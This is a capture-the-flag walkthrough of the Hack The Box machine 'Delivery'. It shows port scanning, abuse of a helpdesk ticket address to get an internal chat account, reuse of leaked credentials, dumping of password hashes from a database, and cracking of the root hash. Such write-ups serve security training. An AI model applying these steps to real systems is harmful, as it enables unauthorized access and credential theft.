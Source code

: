 ```yaml
---
permalink: /htb/delivery
title: Delivery
---
```


<br>

# nmap


```
[connor@fedora delivery]$ nmap 10.10.10.222  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-30 07:56 AEST  
Nmap scan report for 10.10.10.222  
Host is up (0.79s latency).  
Not shown: 998 closed tcp ports (conn-refused)  
PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  
  
Nmap done: 1 IP address (1 host up) scanned in 70.49 seconds
```


Add the hostname to /etc/hosts:

```
10.10.10.222 delivery.htb helpdesk.delivery.htb
```

Then we can go to http://helpdesk.delivery.htb/, click 'open a new ticket', and fill in details.

I used email: user@delivery.htb

Then I got 'You may check the status of your ticket, by navigating to the Check Status page using ticket id: 4774706.

If you want to add more information to your ticket, just email 4774706@delivery.htb.'

Then use the email 4774706@delivery.htb to sign up here http://delivery.htb:8065/signup_email

Then go back and click 'check ticket status' with  user@delivery.htb and ticket id: 4774706.

We see a confirmation URL <http://delivery.htb/:8065/do_verify_email?token=yfb6qoounnptzz6biskzss9mq79hhp1h7nkkij4sgtpa41rid9p8d1zb8km36ph6&email=4774706%40delivery.htb>

Now we have access to the Internal team!

There's credentials in the chat:

@developers Please update theme to the OSTicket before we go live. Credentials to the server are maildeliverer:Youve_G0t_Mail!

```
[connor@fedora delivery]$ ssh maildeliverer@10.10.10.222  
maildeliverer@10.10.10.222's password:    
Linux Delivery 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64  
  
Last login: Mon Aug 29 18:16:43 2022 from 10.10.16.5   
maildeliverer@Delivery:~$ ls  
user.txt  
maildeliverer@Delivery:~$
```


Privesc

We can find the mattermost config and look through it:

```
maildeliverer@Delivery:~$ less /opt/mattermost/config/config.json
```


There are more creds: `mmuser:Crack_The_MM_Admin_PW`

```
maildeliverer@Delivery:~$ mysql -u mmuser -p  
Enter password:    
Welcome to the MariaDB monitor.  Commands end with ; or \g.  
Your MariaDB connection id is 69  
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10  
  
Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.  
  
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement  
.  
  
MariaDB [(none)]> use mattermost;  
Reading table information for completion of table and column names  
You can turn off this feature to get a quicker startup with -A  
  
Database changed  
MariaDB [mattermost]> describe Users;  
+--------------------+--------------+------+-----+---------+-------+  
| Field              | Type         | Null | Key | Default | Extra |  
+--------------------+--------------+------+-----+---------+-------+  
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |  
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |  
| Username           | varchar(64)  | YES  | UNI | NULL    |       |  
| Password           | varchar(128) | YES  |     | NULL    |       |  
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |  
| AuthService        | varchar(32)  | YES  |     | NULL    |       |  
| Email              | varchar(128) | YES  | UNI | NULL    |       |  
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |  
| Nickname           | varchar(64)  | YES  |     | NULL    |       |  
| FirstName          | varchar(64)  | YES  |     | NULL    |       |  
| LastName           | varchar(64)  | YES  |     | NULL    |       |  
| Position           | varchar(128) | YES  |     | NULL    |       |  
| Roles              | text         | YES  |     | NULL    |       |  
| AllowMarketing     | tinyint(1)   | YES  |     | NULL    |       |  
| Props              | text         | YES  |     | NULL    |       |  
| NotifyProps        | text         | YES  |     | NULL    |       |  
| LastPasswordUpdate | bigint(20)   | YES  |     | NULL    |       |  
| LastPictureUpdate  | bigint(20)   | YES  |     | NULL    |       |  
| FailedAttempts     | int(11)      | YES  |     | NULL    |       |  
| Locale             | varchar(5)   | YES  |     | NULL    |       |  
| Timezone           | text         | YES  |     | NULL    |       |  
| MfaActive          | tinyint(1)   | YES  |     | NULL    |       |  
| MfaSecret          | varchar(128) | YES  |     | NULL    |       |  
+--------------------+--------------+------+-----+---------+-------+  
25 rows in set (0.001 sec)  
  
MariaDB [mattermost]> select Username, Password from Users;  
+----------------------------------+--------------------------------------------------------------+  
| Username                         | Password                                                     |  
+----------------------------------+--------------------------------------------------------------+  
| user                             | $2a$10$XF6KLh8itiBsLQV9ooQmpu6G62fWtDz2OxItmDYJNbxS01cS75mg. |  
| surveybot                        |                                                              |  
| c3ecacacc7b94f909d04dbfd308a9b93 | $2a$10$u5815SIBe2Fq1FZlv9S8I.VjU3zeSPBrIEg9wvpiLaS7ImuiItEiK |  
| 5b785171bfb34762a933e127630c4860 | $2a$10$3m0quqyvCE8Z/R1gFcCOWO6tEj6FtqtBn8fRAXQXmaKmg.HDGpS/G |  
| root                             | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO |  
| ff0a21fc6fc2488195e16ea854c963ee | $2a$10$RnJsISTLc9W3iUcUggl1KOG9vqADED24CQcQ8zvUm1Ir9pxS.Pduq |  
| channelexport                    |                                                              |  
| 9ecfb4be145d47fda0724f697f35ffaf | $2a$10$s.cLPSjAVgawGOJwB7vrqenPg2lrDtOECRtjwWahOzHfq1CoFyFqm |  
+----------------------------------+--------------------------------------------------------------+  
8 rows in set (0.001 sec)
```

From the chat we know the password is some variation of PleaseSubscribe!

```
[connor@fedora delivery]$ wget https://raw.githubusercontent.com/hashcat/hashcat/master/rules/best64.rule
[connor@fedora delivery]$ echo PleaseSubscribe! | hashcat -r best64.rule --stdout > wordlist  
[connor@fedora delivery]$ vim hash  
[connor@fedora delivery]$ cat hash  
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO  
[connor@fedora delivery]$ john hash --wordlist=wordlist  
Using default input encoding: UTF-8  
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])  
Cost 1 (iteration count) is 1024 for all loaded hashes  
Will run 4 OpenMP threads  
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status  
PleaseSubscribe!21 (?)
```

We've cracked the root password!

```
maildeliverer@Delivery:~$ su  
Password:    
root@Delivery:/home/maildeliverer# cd /root  
root@Delivery:~# ls  
mail.sh  note.txt  py-smtp.py  root.txt  
root@Delivery:~# cat note.txt    
I hope you enjoyed this box, the attack may seem silly but it demonstrates a pretty high risk vulnerability I've seen several times.  The inspiration for the  
box is here:    
  
- https://medium.com/intigriti/how-i-hacked-hundreds-of-companies-through-their-helpdesk-b7680ddc2d4c    
  
Keep on hacking! And please don't forget to subscribe to all the security streamers out there.  
  
- ippsec
```
